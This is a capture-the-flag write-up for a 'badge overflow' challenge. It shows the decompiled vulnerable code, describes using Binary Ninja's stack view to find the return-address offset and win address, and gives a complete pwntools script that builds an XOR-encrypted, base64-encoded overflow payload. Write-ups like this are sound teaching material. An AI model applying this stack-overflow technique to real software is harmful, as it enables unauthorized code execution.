



# badge overflow: Why I Stopped Using Cyclic Patterns 🩸
**FesseMisk by HAL50000**

Got first blood on this challenge. Not because I'm particularly smart, but because I finally learned to work smarter.

## The Challenge

Standard buffer overflow with some reversible transforms:

Decomp from binaryninja:
```c
void* xor_decrypt(int64_t arg1, int64_t arg2) {
    for (void* i = nullptr; i < arg2; i += 1)
        *(i + arg1) ^= *(i % 0xa + "I <3 klarz")
    return i
}

int32_t main() {
    int64_t dest;
    __builtin_memset(&dest, 0, 0x28);
    int64_t buf;
    __builtin_memset(&buf, 0, 0x64);
    
    fgets(&buf, 0x64, stdin);
    xor_decrypt(&dest, base64_decode(&buf, &dest));
    printf("%.40s\n", &dest);
}
```

Read input → base64 decode → XOR decrypt → overflow.

## The Realization

I used to do the `cyclic 200` dance. Fire up GDB, paste pattern, crash it, find offset. Takes forever.

Turns out Binary Ninja has a stack view that just tells you the offset.

Click on the function. Click "Stack View". Double-click `dest`. Done.




The offset to the return address is literally right there: `0x38` bytes. **No cyclic patterns, no crashing, no math. Just point and click.** This is how you get first blood.


## Finding the Win Address

BinaryNinja shows function addresses right in the disassembly. Just... look at it:



See that `004011d6`? Click it, Ctrl+C, Ctrl+V, Done.

## Solve script



```python
#!/usr/bin/env python3
from pwn import *
import base64

context.arch = 'amd64'

def xor_encrypt(data, key=b"I <3 klarz"):
    result = bytearray()
    for i, byte in enumerate(data):
        result.append(byte ^ key[i % len(key)])
    return bytes(result)

payload = b"A" * 0x38 + p64(0x4011d6)
xor_payload = xor_encrypt(payload)
final = base64.b64encode(xor_payload)

print(final.decode())
```

Simple. Pad to 0x38, append return address, XOR encrypt, base64 encode.
Copy the base64 output, send it to my phone, flash the badge with NFC Tools and run to the flag decryptor to secure the first blood.

Full disclosure: I had an LLM write the final script because I'm lazy and first blood doesn't care about your methods. I'm guessing the only reason I got first blood was the physical NFC badge requirement. Otherwise some team's AI agent would've probably beaten me 👀.
